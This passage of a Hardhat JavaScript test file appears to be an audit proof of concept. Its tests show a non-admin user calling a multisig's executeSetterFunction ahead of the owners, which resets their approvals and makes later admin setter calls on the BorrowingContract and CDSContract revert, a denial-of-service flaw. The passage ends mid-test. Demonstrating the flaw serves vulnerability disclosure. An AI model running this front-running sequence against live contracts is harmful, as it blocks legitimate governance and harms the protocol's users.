 ```js
        it("DOS(denial of service) revert setTreasury BorrowingContract", async function () {
            const { BorrowingContractA, multiSignA, treasuryA, treasuryB } = await loadFixture(deployer);
            await multiSignA.connect(owner).approveSetterFunction([5]);
            await multiSignA.connect(owner1).approveSetterFunction([5]);

            // A malicious user called before admin
            // in `executeSetterFunction` function set false all approved admins
            await multiSignA.connect(user1).executeSetterFunction(5);

            const tx = BorrowingContractA.connect(owner).setTreasury(await treasuryB.getAddress());
            await expect(tx).to.be.reverted;
        })

        it("DOS(denial of service) revert setBondRatio BorrowingContract", async function () {
            const { BorrowingContractA, multiSignA } = await loadFixture(deployer);
            await multiSignA.connect(owner).approveSetterFunction([5]);
            await multiSignA.connect(owner1).approveSetterFunction([5]);

            // A malicious user called before admin
            // in `executeSetterFunction` function set false all approved admins
            await multiSignA.connect(user1).executeSetterFunction(5);

            const tx = BorrowingContractA.connect(owner).setBondRatio(4);
            await expect(tx).to.be.reverted;
        })

        // -- CDSContract ---

        it("DOS(denial of service) revert setAdmin CDSContract", async function () {
            const { CDSContractA, multiSignA } = await loadFixture(deployer);
            await multiSignA.connect(owner).approveSetterFunction([4]);
            await multiSignA.connect(owner1).approveSetterFunction([4]);

            // A malicious user called before admin
            // in `executeSetterFunction` function set false all approved admins
            await multiSignA.connect(user1).executeSetterFunction(4);

            const tx = CDSContractA.connect(owner).setAdmin(owner1.getAddress());
            await expect(tx).to.be.reverted;
        })

        it("DOS(denial of service) revert setWithdrawTimeLimit CDSContract", async function () {
            const { CDSContractA, multiSignA } = await loadFixture(deployer);
            await multiSignA.connect(owner).approveSetterFunction([2]);
            await multiSignA.connect(owner1).approveSetterFunction([2]);

            // A malicious user called before admin
            // in `executeSetterFunction` function set false all approved admins
            await multiSignA.connect(user1).executeSetterFunction(2);

            const tx = CDSContractA.connect(owner).setWithdrawTimeLimit(1000);
            await expect(tx).to.be.reverted;
        })

        it("DOS(denial of service) revert setTreasury CDSContract", async function () {
            const { CDSContractA, multiSignA, treasuryA, treasuryB } = await loadFixture(deployer);
            await multiSignA.connect(owner).approveSetterFunction([6]);
            await multiSignA.connect(owner1).approveSetterFunction([6]);

            // A malicious user called before admin
            // in `executeSetterFunction` function set false all approved admins
            await multiSignA.connect(user1).executeSetterFunction(6);
```